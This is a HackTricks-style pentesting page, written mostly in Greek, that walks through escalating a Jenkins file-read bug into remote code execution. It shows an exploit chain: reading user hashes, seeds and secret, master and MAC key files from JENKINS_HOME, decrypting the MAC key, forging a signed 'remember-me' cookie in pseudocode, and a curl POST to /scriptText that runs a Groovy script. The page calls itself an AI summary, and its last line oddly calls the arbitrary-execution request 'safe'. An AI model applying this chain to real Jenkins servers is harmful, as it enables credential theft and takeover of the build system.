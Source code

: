 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Σε αυτή την ανάρτηση blog είναι δυνατή η εύρεση ενός εξαιρετικού τρόπου για να μετατραπεί μια ευπάθεια Local File Inclusion στο Jenkins σε RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Αυτή είναι μια περίληψη που δημιουργήθηκε από AI του μέρους της ανάρτησης όπου η δημιουργία ενός αυθαίρετου cookie κακοποιείται για να αποκτήσει RCE εκμεταλλευόμενη μια τοπική ανάγνωση αρχείου μέχρι να έχω χρόνο να δημιουργήσω μια περίληψη μόνος μου:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" πρέπει να είναι ενεργοποιημένο (προεπιλεγμένη ρύθμιση).
* **Access Levels:** Ο επιτιθέμενος χρειάζεται δικαιώματα Overall/Read.
* **Secret Access:** Δυνατότητα ανάγνωσης τόσο δυαδικού όσο και κειμενικού περιεχομένου από βασικά αρχεία.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Πρόσβαση στη διαμόρφωση χρηστών και μυστικά από `$JENKINS_HOME/users/*.xml` για κάθε χρήστη για να συγκεντρωθούν:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Εξαγωγή κρυπτογραφικών κλειδιών που χρησιμοποιούνται για την υπογραφή του cookie:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Προσθέτει μία ώρα στην τρέχουσα ώρα
```
{% endcode %}
*   **Concatenate Data for Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Μετατροπή του master key σε μορφή κλειδιού AES128
decrypted = AES.decrypt(macFile, key)  // Αποκρυπτογράφηση του αρχείου .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Υπολογισμός HMAC χρησιμοποιώντας το token και το MAC key
tokenSignature = bytesToHexString(mac)  // Μετατροπή του MAC σε δεκαεξαδική συμβολοσειρά
```

**Cookie Encoding**

*   **Generate Final Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 κωδικοποίηση των δεδομένων cookie
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
* Κάντε ένα αίτημα στο `/crumbIssuer/api/json` για να αποκτήσετε `Jenkins-Crumb`.
* Συλλέξτε το `JSESSIONID` από την απόκριση, το οποίο θα χρησιμοποιηθεί σε συνδυασμό με το cookie "remember-me".

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Το Groovy script μπορεί να χρησιμοποιηθεί για την εκτέλεση εντολών σε επίπεδο συστήματος ή άλλων λειτουργιών μέσα στο περιβάλλον Jenkins.

Η παραδείγματος curl εντολή που παρέχεται δείχνει πώς να κάνετε ένα αίτημα στο Jenkins με τις απαραίτητες κεφαλίδες και cookies για να εκτελέσετε αυθαίρετο κώδικα με ασφάλεια.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
